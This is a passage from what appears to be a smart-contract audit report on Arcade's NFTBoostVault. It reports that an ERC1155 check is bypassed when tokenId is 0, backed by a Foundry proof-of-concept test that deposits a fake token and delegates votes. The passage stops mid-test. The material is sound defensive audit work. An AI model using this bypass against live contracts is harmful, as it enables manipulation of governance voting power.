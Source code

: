 `tokenId` in `NftBoostVault` (uint128):

```solidity
@>  function setMultiplier(address tokenAddress, uint128 tokenId, uint128 multiplierValue) public override onlyManager {
```

https://github.com/code-423n4/2023-07-arcade/blob/main/contracts/NFTBoostVault.sol#L363

Consider setting the same `tokenId` type for the expected NFTs to be used in the contract.

### L10 - You can bypass the ERC1155 check and deposit anything if `tokenId == 0`

The check on [NFTBoostVault.sol#L472](https://github.com/code-423n4/2023-07-arcade/blob/88dcbdedebc506284fcfb3f14d20fc789ce811cf/contracts/NFTBoostVault.sol#L472) can be easily bypass if the ERC1155 token id is `0`:
`if (_tokenAddress != address(0) && _tokenId != 0) {`

**POC:**
```solidity!
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/Test.sol";
import "../contracts/NFTBoostVault.sol";
import "../contracts/token/ArcadeToken.sol";

contract ExampleTest is Test {
    NFTBoostVault public boostVault;
    ArcadeToken public token;

    function setUp() public {
        vm.roll(10);
        token = new ArcadeToken(address(this), address(this));
        boostVault = new NFTBoostVault(IERC20(address(token)), 1, address(this), address(this));
    }

    function testDepositAnyERC1155() public {
        // create a fake erc1155 (could also happen with a )
        FakeERC1155 f = new FakeERC1155();

        token.approve(address(boostVault),100);
        boostVault.addNftAndDelegate(
            1,
            0, // uint128 tokenId,
            address(f), //address tokenAddress,
            address(0xdead) // delegate
        );

        token.transfer(address(0x02), 1);
        vm.prank(address(0x02));
        token.approve(address(boostVault),100);

        vm.prank(address(0x02));
        boostVault.addNftAndDelegate(
            1,
            0, // uint128 tokenId,
            address(f), //address tokenAddress,
            address(0xdead01)
        );

        vm.prank(address(0xdead));
        boostVault.delegate(address(0x01));

        vm.prank(address(0xdead01));
        boostVault.delegate(address(0x01));
```